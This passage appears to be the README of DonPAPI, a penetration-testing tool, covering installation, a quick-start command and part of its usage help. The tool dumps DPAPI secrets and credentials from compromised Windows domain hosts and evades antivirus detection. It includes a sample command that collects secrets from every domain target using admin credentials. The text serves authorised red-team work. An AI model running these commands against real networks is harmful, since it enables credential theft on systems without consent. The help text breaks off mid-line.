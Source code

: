 or (with latest commits)

```text
pipx install git+https://github.com/login-securite/DonPAPI.git
```

or (to dev)

```text
git clone git+https://github.com/login-securite/DonPAPI.git
cd DonPAPI
poetry update
poetry run DonPAPI
```

## Quick Start

```text
pipx install donpapi
donpapi collect -u admin -p 'Password123!' -d domain.local -t ALL --fetch-pvk
donpapi gui
```

## Usage

```text
usage: DonPAPI [-h] [-v] [-o DIRNAME] {collect,gui} ...

Dump revelant information on compromised targets without AV detection. Version: 2.0.0

positional arguments:
  {collect,gui}         DonPAPI Action
    collect             Dump secrets on a target list
    gui                 Spawn a Flask webserver to crawl DonPAPI database

options:
  -h, --help            show this help message and exit
  -v                    Verbosity level (-v or -vv)
  -o DIRNAME, --output-directory DIRNAME
                        Output directory. Default is ~/.donpapi/loot/
```

### collect

This action is used to collect secrets on the targets specified in `-t`.

```text
usage: dpp collect [-h] [--keep-collecting seconds] [--threads Number of threads] [--no-config] [-t TARGET [TARGET ...]] [-d domain.local]
                   [-u username] [-p password] [-H LMHASH:NTHASH] [--no-pass] [-k] [--aesKey hex key] [--laps Administrator] [--dc-ip IP address]
                   [-r /home/user/.donpapi/recover/recover_1718281433] [-c COLLECTORS] [-nr] [--fetch-pvk] [--pvkfile PVKFILE]
                   [--pwdfile PWDFILE] [--ntfile NTFILE] [--mkfile MKFILE]

options:
  -h, --help            show this help message and exit
  --keep-collecting seconds
                        Rerun the attack against all targets after X seconds, X being the value
  --threads Number of threads
                        Number of threads (default: 50)
  --no-config           Do not load donpapi config file (~/.donpapi/donpapi.conf)

authentication:
  -t TARGET [TARGET ...], --target TARGET [TARGET ...]
                        the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets, ALL to fetch every
```